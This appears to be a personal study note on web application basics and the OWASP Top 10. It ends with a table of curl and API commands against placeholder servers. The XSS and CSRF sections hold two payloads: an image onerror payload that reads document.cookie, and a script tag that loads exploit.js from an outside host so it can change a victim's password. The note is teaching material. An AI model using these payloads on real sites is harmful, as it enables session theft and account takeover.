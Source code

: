 
# Web Application Layout

three main categories:
- Web Application Infrastructure: 
	-  `Client-Server`
	-  `One Server`
	-  `Many Servers - One Database`
	-  `Many Servers - Many Databases`
- Web Application Components: 
	1.  `Client`
	2.  `Server`
	    -   Webserver
	    -   Web Application Logic
	    -   Database
	3.  `Services`  (Microservices)
	    -   3rd Party Integrations
	    -   Web Application Integrations
	4.  `Functions`  (Serverless) 
- Web Application Architecture: three layers
	- Presentation Layer: frontend
	- Application Layer: backend
	- Data Layer: database
# [OWASP Top 10](https://owasp.org/www-project-top-ten/) vulnerabilities
1. Broken Access Control
2. Cryptographic Failures 
3. Injection
4. Insecure Design
5. Security Misconfiguration
6. Vulnerable and Outdated Components
7. Identification and Authentication Failures
8. Software and Data Integrity Failures
9. Security Logging and Monitoring Failures
10. Server-Side Request Forgery (SSRF)
# FrontEnd Vulnerabilities
## Cross-Site Scripting (XSS)
- **3 types**: `Reflected XSS`, `Stored XSS`, `DOM XSS`
```javascript
#"><img src=/ onerror=alert(document.cookie)>
```
## Cross-Site Request Forgery (CSRF)
- caused by unfiltered user input
- **common `CSRF` attack:** 
	- gain admin priv
	- craft a `JavaScript` payload that automatically changes the victim's password to the value set by the attacker.
	 
```html
"><script src=//www.example.com/exploit.js></script>
```
## Deobfuscation Websites

- [JS Console](https://jsconsole.com)
- [Prettier](https://prettier.io/playground/)
- [Beautifier](https://beautifier.io/)
- [JSNice](http://www.jsnice.org/)
# BackEnd Vulnerabilities
- Broken Auth/Access Control (Bypass login)
- Malicious File Upload
- Command Injection
- SQL Injection (SQLi)
- CVEs

## ## cURL

**Command**

**Description**

`curl -h`

cURL help menu

`curl inlanefreight.com`

Basic GET request

`curl -s -O inlanefreight.com/index.html`

Download file

`curl -k https://inlanefreight.com`

Skip HTTPS (SSL) certificate validation

`curl inlanefreight.com -v`

Print full HTTP request/response details

`curl -I https://www.inlanefreight.com`

Send HEAD request (only prints response headers)

`curl -i https://www.inlanefreight.com`

Print response headers and response body

`curl https://www.inlanefreight.com -A 'Mozilla/5.0'`

Set User-Agent header

`curl -u admin:admin http://<SERVER_IP>:<PORT>/`

Set HTTP basic authorization credentials

`curl http://admin:admin@<SERVER_IP>:<PORT>/`

Pass HTTP basic authorization credentials in the URL

`curl -H 'Authorization: Basic YWRtaW46YWRtaW4=' http://<SERVER_IP>:<PORT>/`

Set request header

`curl 'http://<SERVER_IP>:<PORT>/search.php?search=le'`

Pass GET parameters

`curl -X POST -d 'username=admin&password=admin' http://<SERVER_IP>:<PORT>/`

Send POST request with POST data

`curl -b 'PHPSESSID=c1nsa6op7vtk7kdis7bcnbadf1' http://<SERVER_IP>:<PORT>/`

Set request cookies

`curl -X POST -d '{"search":"london"}' -H 'Content-Type: application/json' http://<SERVER_IP>:<PORT>/search.php`

Send POST request with JSON data

## APIs

**Command** | **Description**
|--|--|
`curl http://<SERVER_IP>:<PORT>/api.php/city/london` | Read entry
`curl -s http://<SERVER_IP>:<PORT>/api.php/city/ | jq` | Read all entries
`curl -X POST http://<SERVER_IP>:<PORT>/api.php/city/ -d '{"city_name":"HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'`|Create (add) entry
`curl -X PUT http://<SERVER_IP>:<PORT>/api.php/city/london -d '{"city_name":"New_HTB_City", "country_name":"HTB"}' -H 'Content-Type: application/json'`

Update (modify) entry

`curl -X DELETE http://<SERVER_IP>:<PORT>/api.php/city/New_HTB_City`

Delete entry

<!--stackedit_data:
eyJoaXN0b3J5IjpbMjEwMTI1NzA1NiwxOTY1ODU2ODYyXX0=
-->